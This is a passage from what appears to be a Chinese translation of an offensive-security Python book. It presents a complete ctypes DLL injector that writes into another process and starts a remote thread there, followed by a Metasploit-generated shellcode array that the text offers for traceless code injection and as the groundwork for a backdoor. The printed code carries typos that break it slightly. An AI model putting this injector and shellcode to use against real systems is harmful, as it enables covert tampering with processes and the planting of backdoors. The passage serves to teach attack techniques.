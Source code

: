 DLL 注入测试的源码，可从 [`www.nostarch.com/ghpython.htm`](http://www.nostarch.com/ghpython.htm) 下载。

```
#dll_injector.py
import sys
from ctypes import * 
PAGE_READWRITE = 0x04
PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF ) 
VIRTUAL_MEM = ( 0x1000 | 0x2000 )
kernel32 = windll.kernel32 
pid = sys.argv[1] 
dll_path = sys.argv[2] 
dll_len = len(dll_path)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
    sys.exit(0)
# Allocate some space for the DLL path
arg_address = kernel32.VirtualAllocEx(h_process, 0, dll_len, VIRTUAL_ME PAGE_READWRITE)
# Write the DLL path into the allocated space 
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path, dll_len, byref(written))
# We need to resolve the address for LoadLibraryA 
h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll")
h_loadlib = kernel32.GetProcAddress(h_kernel32,"LoadLibraryA")
# Now we try to create the remote thread, with the entry point set
# to LoadLibraryA and a pointer to the DLL path as its single parameter thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,
                                    None, 0,
                                    h_loadlib, arg_address, 0,
                                    byref(thread_id)): 
    print "[*] Failed to inject the DLL. Exiting."
    sys.exit(0)
print "[*] Remote thread with ID 0x%08x created." % thread_id.value 
```

第一步，在目标进程内申请足够的空间，用于存储 DLL 的路径。第二步，将 DLL 路径 写入申请好的地址。第三步，解析 LoadLibraryA 的内存地址。最后一步，将目标进程句柄 和 LoadLibraryA 地址还有存储 DLL 路径的内存地址，传入 CreateRemoteThread()。一旦， 线程创建成功就会看到弹出一个窗口。

现在我们已经成功的完成了 DLL 注入。是让弹出窗口优点虎头蛇尾。但是这对于我们 明白注入的使用，非常重要。

### 7.1.2 代码注入

让我们再狡猾点，再黑点。代码注入能够将 shellcode 注入到一个运行的进程，立即执 行，不会在硬盘上留下任何东西。同样也能将一个进程的 shell 迁移到另一个进程。

接下来我们将用一个简短的 shellcode（能终止指定 PID 的进程）注入到目标进程，然 后杀掉目标进程，同时不留任何痕迹。这对于我们本章最后要创建的后门是至关重要的一步。 同样，我们还要演示如何安全的替换 shellcode，以适用更多的不同的任务。

可以通过 Metasploit 的主页获得终止进程的 shellcode，它们的 shellcode 生成器非常好 用。如果之前没用过的，直接访问 [`metasploit.com/shellcode/`](http://metasploit.com/shellcode/)。这次我们使用 Windows Execute Command shellcode 生成器。创建的 shellcdoe 如表 7-1。

```
/* win32_exec - EXITFUNC=thread CMD=taskkill /PID AAAAAAAA Size=152 Encoder=None http://metasploit.com*/
unsigned char scode[] = 
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09"
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" 
    "\xe7\x74\x61\x73\x6b\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41" 
    "\x41\x41\x41\x41\x41\x41\x41\x00"; 
```